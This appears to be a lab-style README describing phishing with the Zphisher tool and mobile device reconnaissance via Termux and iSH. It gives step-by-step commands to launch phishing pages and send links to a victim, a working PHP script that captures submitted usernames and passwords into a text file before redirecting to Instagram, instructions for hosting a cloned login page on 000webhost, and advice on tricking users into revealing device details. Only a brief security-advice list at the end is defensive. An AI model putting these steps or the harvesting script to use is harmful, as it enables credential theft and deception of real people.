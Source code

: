 # Phishing & Mobile OS Information Gathering – Zphisher & Termux

## Objective  
Simulate phishing attacks using pre-built templates with Zphisher, and gather mobile device metadata through social engineering. Understand how attackers craft believable phishing pages and capture credentials.

---

## Tools Used  
- Zphisher (GitHub phishing tool)  
- 000webhost (hosted phishing site)  
- Termux / iSH (mobile info gathering)  
- Firefox / Browser  
- Kali Linux / Android Phone

---

## A. Launch a Phishing Page (Zphisher)

### Steps:

1. Clone and install Zphisher:
```bash
git clone https://github.com/htr-tech/zphisher
cd zphisher
bash zphisher.sh
```

2. Choose a phishing template:
- Facebook, Instagram, Gmail, LinkedIn, etc.

3. Select a hosting method:
- Use localhost or NGROK to expose public link

4. Copy and send the generated phishing link to a victim

**Result**: When the victim enters credentials, Zphisher captures and displays them.

---

## B. Host a Phishing Site on 000webhost

1. Create a free 000webhost account  
2. Upload a cloned login page (e.g., fake Instagram or Gmail)  
3. Modify `login.php` to POST to `POST.php`  
4. Create a `POST.php` file to capture form data:

```php
<?php
file_put_contents("credentials.txt", "USER: " . $_POST['username'] . " | PASS: " . $_POST['password'] . "\n", FILE_APPEND);
header('Location: https://instagram.com'); // Redirect after login
exit();
?>
```

5. Upload both files and share the link

6. View captured credentials:
```
credentials.txt
```

---

## C. Mobile OS Info Gathering – Termux & iSH

### Termux (Android):
```bash
pkg update && pkg upgrade
pkg install neofetch
neofetch
```

### iSH (iOS Terminal Emulator):
```bash
apk update && apk add neofetch
neofetch
```
 **Use:** Trick users into pasting device output (platform, CPU, kernel, etc.)  
- Often used to estimate device capabilities or deliver specific exploits

---

## Key Concepts

- **Phishing** leverages trust and urgency  
- **Credential harvesting** via cloned sites is highly effective  
- **Mobile info gathering** supports fingerprinting and tracking  
- Zphisher automates the setup but still requires social engineering skill

---

## Security Advice

- Always check the URL before logging in  
- Avoid clicking unknown shortened links  
- Use MFA to protect against credential theft  
- Educate users on how phishing looks and works  
- Monitor endpoints for unauthorized info sharing
